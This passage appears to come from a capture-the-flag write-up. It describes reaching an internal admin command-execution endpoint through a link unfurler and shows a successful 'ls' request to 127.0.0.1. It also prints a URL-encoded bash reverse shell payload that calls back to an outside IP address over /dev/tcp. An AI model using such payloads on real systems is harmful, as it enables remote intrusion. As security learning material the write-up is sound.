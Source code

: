 - I also attempted sophisticated command injection payloads like reverse shells before confirming basic command execution worked:

```php
/admin/execute?cmd=bash%20-c%20%27bash%20-i%20%3E&%20/dev/tcp/192.168.29.54/4444%200%3E&1%27

```

- I spent time trying to determine if the unfurler was making proper HTTP requests or if there were additional protections in place.
- In the above image it showed that requests to the root path (`/`) were working, but `/admin/execute` was failing. This was my "aha" moment - the admin routes were mounted at the root level, not under `/admin/`!
- I then tried:

```
http://127.0.0.1:2901/execute?cmd=ls
```

![Screenshot 2025-02-28 204201.png](Files/Screenshot_2025-02-28_204201.png)

- And got a successful response showing the directory contents!

![Screenshot 2025-02-28 204222.png](Files/Screenshot_2025-02-28_204222.png)
